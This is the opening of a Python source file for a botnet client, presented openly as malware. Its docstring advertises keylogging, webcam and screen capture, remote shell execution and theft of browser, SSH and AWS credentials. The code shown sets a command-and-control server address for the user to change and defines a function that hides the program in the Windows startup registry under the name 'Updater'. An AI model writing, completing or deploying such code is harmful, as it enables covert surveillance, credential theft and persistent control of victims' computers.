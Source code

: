 """
Botnet Client
=================
This file implements a botnet client/agent.
It connects to the central server, listens for commands, and executes them.
Features:
- Keylogger (records keystrokes)
- File upload/download
- Screenshot and webcam capture
- Shell command execution
- Credential stealing (browsers, SSH, AWS, etc.)
- Automatic persistence (adds itself to Windows startup)
"""

import socket
import os
import pyautogui
import subprocess
from datetime import datetime
import time
import sys
import struct
import cv2
import threading
import zipfile
import shutil
import glob
import sqlite3
import base64
from pynput import keyboard

END_RESULT = "<end_of_result>"
SERVER_IP = ("192.168.110.189", 8091)  # <-- CHANGE THIS TO YOUR SERVER IP
CHUNK_SIZE = 2048
EOF_MARKER = "<end_of_file>"
KEYLOG_FILE = "keylog.txt"
STARTUP_NAME = "Updater"

# Persistence: Add client to system startup on Windows
def add_to_startup(entry_name=STARTUP_NAME, file_path=None):
    try:
        import winreg
        if file_path is None:
            file_path = sys.argv[0]
        key = winreg.HKEY_CURRENT_USER
        key_value = r"Software\Microsoft\Windows\CurrentVersion\Run"
        with winreg.OpenKey(key, key_value, 0, winreg.KEY_ALL_ACCESS) as open_key:
            winreg.SetValueEx(open_key, entry_name, 0, winreg.REG_SZ, file_path)
    except Exception as e:
        print(f"[!] add_to_startup error: {e}")
